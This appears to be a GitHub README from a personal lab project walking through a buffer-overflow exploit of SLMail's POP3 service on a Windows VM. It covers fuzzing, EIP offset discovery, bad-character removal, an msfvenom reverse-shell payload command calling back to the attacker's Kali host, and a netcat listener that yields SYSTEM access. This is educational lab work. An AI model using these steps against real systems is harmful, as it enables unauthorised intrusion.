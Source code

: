 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF10.png" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF11.png" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF12.png" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF13.png" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF14.png" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF15.png" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF16.png" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-2.png" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
